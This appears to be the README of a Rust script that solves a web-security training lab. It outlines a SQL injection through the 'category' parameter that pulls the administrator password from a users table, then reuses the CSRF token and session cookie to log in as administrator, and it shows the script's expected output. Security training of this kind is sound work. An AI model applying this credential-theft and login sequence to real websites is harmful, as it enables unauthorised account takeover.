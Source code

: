 # Hack Steps

1. Inject payload into 'category' query parameter to retrieve administrator password from users table using concatenation method
2. Fetch the login page
3. Extract the csrf token and session cookie
4. Login as the administrator
5. Fetch the administrator profile

# Run Script

1. Change the URL of the lab
2. Start script

```
~$ cargo run
```

# Expected Output

```
[#] Injection parameter: category
1. Retrieving administrator password from users table.. OK => t3yxp9s4v7qgq4valov0
2. Fetching login page.. OK
3. Extracting the csrf token and session cookie.. OK
4. Logging in as the administrator.. OK
5. Fetching the administrator profile.. OK
🗹 The lab should be marked now as solved
```
